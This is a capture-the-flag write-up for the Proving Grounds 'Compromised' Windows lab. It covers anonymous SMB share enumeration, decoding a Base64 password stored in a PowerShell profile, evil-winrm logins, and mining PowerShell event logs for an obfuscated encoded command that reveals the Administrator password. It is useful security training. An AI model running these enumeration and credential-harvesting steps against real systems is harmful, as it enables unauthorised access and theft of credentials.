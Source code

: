 ```yaml
---
description: Proving Grounds PG Practice Compromised writeup
---
```


# Compromised

## Nmap

```bash
sudo nmap 192.168.178.152  -p- -sS -sV

PORT      STATE SERVICE       VERSION
80/tcp    open  http          Microsoft IIS httpd 10.0
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
443/tcp   open  ssl/http      Microsoft IIS httpd 10.0
445/tcp   open  microsoft-ds?
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
49666/tcp open  msrpc         Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

Jumping in immediately over to `SMB` for any low hanging fruit we can see can authenticate with null credentials and list the available shares.

```bash
└─$ smbclient -U '' -L \\\\192.168.178.152   
  
Enter WORKGROUP\'s password: 

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        Scripts$        Disk      
        Users$          Disk      
SMB1 disabled -- no workgroup available
```

```
└─$ smbclient -U '' \\\\192.168.178.152\\Scripts$   
                                                                                                            1 ⨯
Enter WORKGROUP\'s password: 
Try "help" to get a list of possible commands.
smb: \> dir

  .                                   D        0  Tue Jun  1 10:57:45 2021
  ..                                  D        0  Tue Jun  1 10:57:45 2021
  defrag.ps1                          A       49  Tue Jun  1 10:57:45 2021
  fix-printservers.ps1                A      283  Tue Jun  1 10:57:45 2021
  install-features.ps1                A       81  Tue Jun  1 10:57:45 2021
  purge-temp.ps1                      A      105  Tue Jun  1 10:57:45 2021

                7706623 blocks of size 4096. 3766380 blocks available
```

From here we can see four separate `PowerShell` .ps1 files. I downloaded all the available files which have been listed below:

![](<../../../.gitbook/assets/image (1924).png>)

{% tabs %}
{% tab title="Defrag.ps1" %}
```c
Optimize-Volume -DriveLetter C -Defrag -Verbose
```
{% endtab %}

{% tab title="fix-printservers.ps1" %}
```c
$credential = New-Object System.Management.Automation.PSCredential ('scripting', $password)
$spooler = Get-WmiObject -Class Win32_Service -ComputerName (Read-Host -Prompt 'Server Name') -Credential $credential -Filter "Name='spooler'"
$spooler.stopservice()
$spooler.startservice()
```
{% endtab %}

{% tab title="install-features.ps1" %}
```c
Install-WindowsFeature -Name WindowsPowerShellWebAccess -IncludeManagementTools
```
{% endtab %}

{% tab title="purge-temp.ps1" %}
```c
rm "C:\Users\*\Appdata\Local\Temp\*" "c:\Windows\Temp\*"  -Recurse -Force -ErrorAction SilentlyContinue
```
{% endtab %}
{% endtabs %}

However, after going through these files they do not appear to be related directly to any exploitation.

Examining the Users$ `SMB` Share we see that the c:\users directory is mapped as a share. Typically the Administrators user folder is off limits. We are however able to access the entire user directory for the user 'scripting'.

![](<../../../.gitbook/assets/image (1925).png>)

Whilst this produces a large amount of files and directories we can instead utilize the `smbmap` tool to assist with recursively going through each directory for interesting files.

```bash
smbmap -u null -p null -H <IP> -s Scripting$ -R
```

Where once finished we find the following files of interest:

![](<../../../.gitbook/assets/image (1926).png>)

Using `smbclient` we can download `README.txt` from the user scripting's Desktop.

{% tabs %}
{% tab title="README.txt" %}
```
Please keep your personal shares locked down. 
Just because it's hidden it doesn't mean it's not accessible. 
Also, please stop storing passwords in your scripts. 
Encoding is not encryption and this information can be lifted from the logs. 
-Security
```
{% endtab %}
{% endtabs %}

We also have a file called profile.ps1 located in `c:\users\scripting\Documents\WindowsPowerShell`.

```c
$password = ConvertTo-SecureString "$([System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String('RgByAGkAZQBuAGQAcwBEAG8AbgB0AEwAZQB0AEYAcgBpAGUAbgBkAHMAQgBhAHMAZQA2ADQAUABhAHMAcwB3AG8AcgBkAHMA')))" |
-AsPlainText -Force
```

Extracting the Base64 string from the script and running it through base64 we find a potential password string.

```bash
echo 'RgByAGkAZQBuAGQAcwBEAG8AbgB0AEwAZQB0AEYAcgBpAGUAbgBkAHMAQgBhAHMAZQA2ADQAUABhAHMAcwB3AG8AcgBkAHMA' | base64 -d  
```

![](<../../../.gitbook/assets/image (1927).png>)

We have the credentials of `scripting:FriendsDontLetFriendsBase64Passwords` Considering port 5985 is open we can test the credentials using `Evil-WinRM`.

```bash
evil-winrm -i <IP> -u 'scripting' -p 'FriendsDontLetFriendsBase64Passwords'
```

![](<../../../.gitbook/assets/image (1928).png>)

Interestingly checking the users group memberships we see the user scripting is a member of the 'Event Log Readers' group.

![](<../../../.gitbook/assets/image (1929).png>)

Often times `PowerShell` commands and scripts that are executed on the system will be logged to the 'Windows PowerShell' event logs.

```
Get-EventLog -LogName 'Windows PowerShell' -Newest 1000 | Select-Object -Property * | out-file c:\users\scripting\logs.txt
```

From the output we notice multiple instances of the command below being execute on the system. As we can tell by the command the payload in encoded in base64.

```
powershell.exe -NoP -NonI -W Hidden -Exec Bypass -Enc JABPAHcAbgBlAGQAIAA9ACAAQAAoACkAOwAkAE8AdwBuAGUAZAAgACsAPQAgAHsAJABEAGUAYwBvAGQAZQBkACAAPQAgAFsAUwB5AHMAdABlAG0ALg
BDAG8AbgB2AGUAcgB0AF0AOgA6AEYAcgBvAG0AQgBhAHMAZQA2ADQAUwB0AHIAaQBuAGcAKAAiAEgANABzAEkAQQBBAEEAQQBBAEEAQQBFAEEAQQB2AEoAUwBBADMATwBTAE0AMwBKADgAUwB6ADIAegBVAHoAUABLAE0AbABNAEwAUQByAEoAUwBNAHcATABBAFkAcQBXADUAeABlAGwASwBBAEkAQQAwAD
cAeABrAEgAQgA4AEEAQQBBAEEAPQAiACkAfQA7ACQATwB3AG4AZQBkACAAKwA9ACAAewBbAHMAdAByAGkAbgBnAF0AOgA6AGoAbwBpAG4AKAAnACcALAAgACgAIAAoADgAMwAsADEAMQA2ACwAOQA3ACwAMQAxADQALAAxADEANgAsADQANQAsADgAMwAsADEAMAA4ACwAMQAwADEALAAxADAAMQAsADEAMQ
AyACwAMwAyACwANAA1ACwAOAAzACwAMQAwADEALAA5ADkALAAxADEAMQAsADEAMQAwACwAMQAwADAALAAxADEANQAsADMAMgAsADUAMwApACAAfAAlAHsAIAAoACAAWwBjAGgAYQByAF0AWwBpAG4AdABdACAAJABfACkAfQApACkAIAB8ACAAJgAgACgAKABnAHYAIAAiACoAbQBkAHIAKgAiACkALgBuAG
EAbQBlAFsAMwAsADEAMQAsADIAXQAtAGoAbwBpAG4AJwAnACkAfQA7ACQATwB3AG4AZQBkACAAKwA9ACAAewBpAGYAKAAkAGUAbgB2ADoAYwBvAG0AcAB1AHQAZQByAG4AYQBtAGUAIAAtAGUAcQAgACIAYwBvAG0AcAByAG8AbQBpAHMAZQBkACIAKQAgAHsAZQB4AGkAdAB9AH0AOwAkAE8AdwBuAGUAZA
AgACsAPQAgAHsAWwBzAHQAcgBpAG4AZwBdADoAOgBqAG8AaQBuACgAJwAnACwAIAAoACAAKAAxADAANQAsADEAMAAyACwAMwAyACwANAAwACwAMQAxADYALAAxADAAMQAsADEAMQA1ACwAMQAxADYALAA0ADUALAA5ADkALAAxADEAMQAsADEAMQAwACwAMQAxADAALAAxADAAMQAsADkAOQAsADEAMQA2AC
wAMQAwADUALAAxADEAMQAsADEAMQAwACwAMwAyACwANQA2ACwANAA2ACwANQA2ACwANAA2ACwANQA2ACwANAA2ACwANQA2ACwAMwAyACwANAA1ACwAOAAxACwAMQAxADcALAAxADAANQAsADEAMAAxACwAMQAxADYALAA0ADEALAAzADIALAAxADIAMwAsADEAMAAxACwAMQAyADAALAAxADAANQAsADEAMQ
A2ACwAMQAyADUAKQAgAHwAJQB7ACAAKAAgAFsAYwBoAGEAcgBdAFsAaQBuAHQAXQAgACQAXwApAH0AKQApACAAfAAgACYAIAAoACgAZwB2ACAAIgAqAG0AZAByACoAIgApAC4AbgBhAG0AZQBbADMALAAxADEALAAyAF0ALQBqAG8AaQBuACcAJwApAH0AOwAkAE8AdwBuAGUAZAAgACsAPQAgAHsAWwBzAH
QAcgBpAG4AZwBdADoAOgBqAG8AaQBuACgAJwAnACwAIAAoACAAKAAxADAANQAsADEAMAAyACwAMwAyACwANAAwACwAMwA2ACwAMQAxADEALAAxADEAOQAsADEAMQAwACwAMQAwADEALAAxADAAMAAsADkAMQAsADUAMAAsADkAMwAsADQANgAsADgANAAsADEAMQAxACwAOAAzACwAMQAxADYALAAxADEANA
AsADEAMAA1ACwAMQAxADAALAAxADAAMwAsADQAMAAsADQAMQAsADMAMgAsADQANQAsADEAMQAwACwAMQAwADEALAAzADIALAAzADkALAAxADAANQAsADEAMAAyACwANAAwACwAMwA2ACwAMQAwADEALAAxADEAMAAsADEAMQA4ACwANQA4ACwAOQA5ACwAMQAxADEALAAxADAAOQAsADEAMQAyACwAMQAxAD
cALAAxADEANgAsADEAMAAxACwAMQAxADQALAAxADEAMAAsADkANwAsADEAMAA5ACwAMQAwADEALAAzADIALAA0ADUALAAxADAAMQAsADEAMQAzACwAMwAyACwAMwA0ACwAOQA5ACwAMQAxADEALAAxADAAOQAsADEAMQAyACwAMQAxADQALAAxADEAMQAsADEAMAA5ACwAMQAwADUALAAxADEANQAsADEAMA
AxACwAMQAwADAALAAzADQALAA0ADEALAAzADIALAAxADIAMwAsADEAMAAxACwAMQAyADAALAAxADAANQAsADEAMQA2ACwAMQAyADUALAAzADkALAA0ADEALAAzADIALAAxADIAMwAsADEAMAAxACwAMQAyADAALAAxADAANQAsADEAMQA2ACwAMQAyADUALAAzADIALAA2ADkALAAxADAAOAAsADEAMQA1AC
wAMQAwADEALAAzADIALAAxADIAMwAsADMANgAsADEAMAA5ACwAMQAxADUALAAzADIALAA2ADEALAAzADIALAA0ADAALAA3ADgALAAxADAAMQAsADEAMQA5ACwANAA1ACwANwA5ACwAOQA4ACwAMQAwADYALAAxADAAMQAsADkAOQAsADEAMQA2ACwAMwAyACwAOAAzACwAMQAyADEALAAxADEANQAsADEAMQ
A2ACwAMQAwADEALAAxADAAOQAsADQANgAsADcAMwAsADcAOQAsADQANgAsADcANwAsADEAMAAxACwAMQAwADkALAAxADEAMQAsADEAMQA0ACwAMQAyADEALAA4ADMALAAxADEANgAsADEAMQA0ACwAMQAwADEALAA5ADcALAAxADAAOQAsADQAMAAsADMANgAsADYAOAAsADEAMAAxACwAOQA5ACwAMQAxAD
EALAAxADAAMAAsADEAMAAxACwAMQAwADAALAA0ADQALAA0ADgALAA0ADQALAAzADYALAA2ADgALAAxADAAMQAsADkAOQAsADEAMQAxACwAMQAwADAALAAxADAAMQAsADEAMAAwACwANAA2ACwANwA2ACwAMQAwADEALAAxADEAMAAsADEAMAAzACwAMQAxADYALAAxADAANAAsADQAMQAsADQAMQAsADEAMg
A1ACkAIAB8ACUAewAgACgAIABbAGMAaABhAHIAXQBbAGkAbgB0AF0AIAAkAF8AKQB9ACkAKQAgAHwAIAAmACAAKAAoAGcAdgAgACIAKgBtAGQAcgAqACIAKQAuAG4AYQBtAGUAWwAzACwAMQAxACwAMgBdAC0AagBvAGkAbgAnACcAKQB9ADsAJABPAHcAbgBlAGQAIAArAD0AIAB7AFsAUwB5AHMAdABlAG
0ALgBUAGUAeAB0AC4ARQBuAGMAbwBkAGkAbgBnAF0AOgA6AFUAbgBpAGMAbwBkAGUALgBHAGUAdABTAHQAcgBpAG4AZwAoAFsAUwB5AHMAdABlAG0ALgBDAG8AbgB2AGUAcgB0AF0AOgA6AEYAcgBvAG0AQgBhAHMAZQA2ADQAUwB0AHIAaQBuAGcAKAAiAEsAQQBCAE8AQQBHAFUAQQBkAHcAQQB0AEEARQ
A4AEEAWQBnAEIAcQBBAEcAVQBBAFkAdwBCADAAQQBDAEEAQQBVAHcAQgA1AEEASABNAEEAZABBAEIAbABBAEcAMABBAEwAZwBCAEoAQQBFADgAQQBMAGcAQgBUAEEASABRAEEAYwBnAEIAbABBAEcARQBBAGIAUQBCAFMAQQBHAFUAQQBZAFEAQgBrAEEARwBVAEEAYwBnAEEAbwBBAEUANABBAFoAUQBCAD
MAQQBDADAAQQBUAHcAQgBpAEEARwBvAEEAWgBRAEIAagBBAEgAUQBBAEkAQQBCAFQAQQBIAGsAQQBjAHcAQgAwAEEARwBVAEEAYgBRAEEAdQBBAEUAawBBAFQAdwBBAHUAQQBFAE0AQQBiAHcAQgB0AEEASABBAEEAYwBnAEIAbABBAEgATQBBAGMAdwBCAHAAQQBHADgAQQBiAGcAQQB1AEEARQBjAEEAVw
BnAEIAcABBAEgAQQBBAFUAdwBCADAAQQBIAEkAQQBaAFEAQgBoAEEARwAwAEEASwBBAEEAawBBAEcAMABBAGMAdwBBAHMAQQBDAEEAQQBXAHcAQgBUAEEASABrAEEAYwB3AEIAMABBAEcAVQBBAGIAUQBBAHUAQQBFAGsAQQBUAHcAQQB1AEEARQBNAEEAYgB3AEIAdABBAEgAQQBBAGMAZwBCAGwAQQBIAE
0AQQBjAHcAQgBwAEEARwA4AEEAYgBnAEEAdQBBAEUATQBBAGIAdwBCAHQAQQBIAEEAQQBjAGcAQgBsAEEASABNAEEAYwB3AEIAcABBAEcAOABBAGIAZwBCAE4AQQBHADgAQQBaAEEAQgBsAEEARgAwAEEATwBnAEEANgBBAEUAUQBBAFoAUQBCAGoAQQBHADgAQQBiAFEAQgB3AEEASABJAEEAWgBRAEIAeg
BBAEgATQBBAEsAUQBBAHAAQQBDAGsAQQBMAGcAQgB5AEEARwBVAEEAWQBRAEIAawBBAEgAUQBBAGIAdwBCAGwAQQBHADQAQQBaAEEAQQBvAEEAQwBrAEEAIgApACkAIAB8ACAAaQBlAHgAfQA7ACQATwB3AG4AZQBkACAAfAAgACUAIAB7ACQAXwB8AGkAZQB4AH0A
```

Decoding the string with Base64 reveals the command below:

![](<../../../.gitbook/assets/image (1930).png>)

As we can see we have a lot going on with the decoded script. This writeup will not go into depth on this however references will be provided for further reading. Essentially after slowly breaking down the script and decoding a couple of the lines we see the following is performed:

```
$Decoded = [System.Convert]::FromBase64String("H4sIAAAAAAAEAAvJSA3OSM3J8Sz2zUzPKMlMLQrJSMwLAYqW5xelKAIA07xkHB8AAAA=")
Start-Sleep -Seconds 5
if($env:computername -eq "compromised") {exit}
if (test-connection 8.8.8.8 -Quiet) {exit}
if ($owned[2].ToString() -ne 'if($env:computername -eq "compromised") {exit}') {exit} Else {$ms = (New-Object System.IO.MemoryStream($Decoded,0,$Decoded.Length))}
(New-Object System.IO.StreamReader(New-Object System.IO.Compression.GZipStream($ms, [System.IO.Compression.CompressionMode]::Decompress))).readtoend() | iex
```

Essentially the script will exit on the target system as per the script if the machine cannot ping 8.8.8.8 (Google DNS Servers) and if the machine name is 'compromised' the script will exit. Removing these conditions we are left with the script below.

```
$Decoded = [System.Convert]::FromBase64String("H4sIAAAAAAAEAAvJSA3OSM3J8Sz2zUzPKMlMLQrJSMwLAYqW5xelKAIA07xkHB8AAAA=")
$ms = (New-Object System.IO.MemoryStream($Decoded,0,$Decoded.Length))
(New-Object System.IO.StreamReader(New-Object System.IO.Compression.GZipStream($ms, [System.IO.Compression.CompressionMode]::Decompress))).readtoend()
```

When executed on the target system we are given the Administrator password.

![](<../../../.gitbook/assets/image (1931).png>)

For the credentials: `Administrator:TheShellIsMightierThanTheSword!`

We can then log in as the Administrator using `Evil-WinRM`.

```bash
evil-winrm -i <IP> -u 'Administrator' -p 'TheShellIsMightierThanTheSword!'
```

![](<../../../.gitbook/assets/image (1932).png>)

## References

* [https://docs.microsoft.com/en-us/dotnet/api/system.io.compression.gzipstream?view=net-5.0](https://docs.microsoft.com/en-us/dotnet/api/system.io.compression.gzipstream?view=net-5.0)
* [https://threat.tevora.com/5-minute-forensics-decoding-powershell-payloads/](https://threat.tevora.com/5-minute-forensics-decoding-powershell-payloads/)
* [https://www.offensive-security.com/offsec/powershell-obfuscation/](https://www.offensive-security.com/offsec/powershell-obfuscation/)
